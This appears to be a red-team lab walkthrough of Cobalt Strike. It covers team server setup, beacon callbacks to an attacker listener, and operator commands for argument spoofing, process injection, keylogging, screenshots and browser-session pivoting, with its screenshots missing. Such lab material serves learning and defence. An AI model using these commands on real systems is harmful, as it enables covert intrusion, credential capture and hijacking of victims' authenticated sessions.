







# Cobalt Strike 101

This lab is for exploring the advanced penetration testing / post-exploitation tool Cobalt Strike.

## Definitions

* Listener - a service running on the attacker's C2 server that is listening for beacon callbacks
* Beacon - a malicious agent / implant on a compromised system that calls back to the attacker controlled system and checks for any new commands that should be executed on the compromised system
* Team server - Cobalt Strike's server component. Team server is where listeners for beacons are configured and stood up.

## Getting Started

### Team Server


```csharp
# the syntax is ./teamserver <serverIP> <password> <~killdate> <~profile>
# ~ optional for now
root@/opt/cobaltstrike# ./teamserver 10.0.0.5 password
```




Note that in real life red team engagements, you would put the team servers behind redirectors to add resilience to your attacking infrastructure. See [Red Team Infrastructure](./)


### Cobalt Strike Client


```csharp
root@/opt/cobaltstrike# ./cobaltstrike
```


Enter the following:

* host - team server IP or DNS name
* user - anything you like - it's just a nickname
* password - your team server password


### Demo

All of the above steps are shown below in one animated gif:


## Setting Up Listener

Give your listener a descriptive name and a port number the team server should bind to and listen on:



## Generating a Stageless Payload

Generate a stageless \(self-contained exe\) beacon - choose the listener your payload will connect back to and payload architecture and you are done:



## Receiving First Call Back

On the left is a victim machine, executing the previously generated beacon - and on the left is a cobalt strike client connected to the teamserver catching the beacon callback:


## Interacting with Beacon

Right click the beacon and select interact. Note the new tab opening at the bottom of the page that allows an attacker issuing commdands to the beacon:


## Interesting Commands & Features

### Argue

Argue command allows the attacker to spoof commandline arguments of the process being launched.

The below spoofs calc command line parameters:


```csharp
beacon> argue calc /spoofed
beacon> run calc
```



Note the differences in commandline parameters captured in sysmon vs procexp:


Argument spoofing is done via manipulating memory structures in Process Environment Block which I have some notes about:





### Inject

Inject is very similar to metasploit's `migrate` function and allows an attacker to duplicate their beacon into another process on the victim system:


```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```


Note how after injecting the beacon to PID 776, another session is spawned:



### Keylogger


```csharp
beacon> keylogger 1736 x64
```




### Screenshot


```csharp
beacon> screenshot 1736 x64
```



### Runu

Runu allows us launching a new process from a specified parent process:


```csharp
runu 2316 calc
```



### Psinject

This function allows an attacker executing powershell scripts from under any process on the victim system. Note that PID 2872 is the calc.exe process seen in the above screenshot related to `runu`:


```csharp
beacon> psinject 2872 x64 get-childitem c:\
```




Highlighted in green are new handles that are opened in the target process when powershell script is being injected:


### Spawnu

Spawn a session with powershell payload from a given parent PID:


```csharp
beacon> spawnu 3848 httplistener
```





### Browser Pivoting

This feature enables an attacker riding on compromised user's browsing sessions.

The way this attack works is best explained with an example:

* Victim log's in to some web application using Internet Explorer.
* Attacker/operator creates a browser pivot by issuing a `browserpivot` command
* The beacon creates a proxy server on the victim system \(in Internet Explorer process to be more precise\) by binding and listening to a port, say 6605
* Team server binds and starts listening to a port, say 33912
* Attacker can now use their teamserver:33912 as a web proxy. All the traffic that goes through this proxy will be forwarded/traverse the proxy opened on the victim system via the Internet Explorer process \(port 6605\). Since Internet Explorer relies on WinINet library for managing web requests and authentication, attacker's web requests will be reauthenticated allowing the attacker to view same applications the victim has active sessions to without being asked to login.

Browser pivotting in cobalt strike:


```csharp
beacon> browserpivot 244 x86
```


Note how the iexplore.exe opened up port 6605 for listening as mentioned earlier:


The below illustrates the attack visually. On the left - a victim system logged to some application and on the right - attacker id trying to access the same application and gets presented with a login screen since they are not authenticated:



The story changes if the attacker starts proxying his web traffic through the victim proxy `10.0.0.5:33912`:


### System Profiler

A nice feature that profiles potential victims by gathering information on what software / plugins victim system has installed:


Once the the profilder URL is visited, findings are presented in the Application view:


Event logs will show how many times the profiler has been used by victims:


## References

[https://www.cobaltstrike.com/downloads/csmanual313.pdf](https://www.cobaltstrike.com/downloads/csmanual313.pdf)


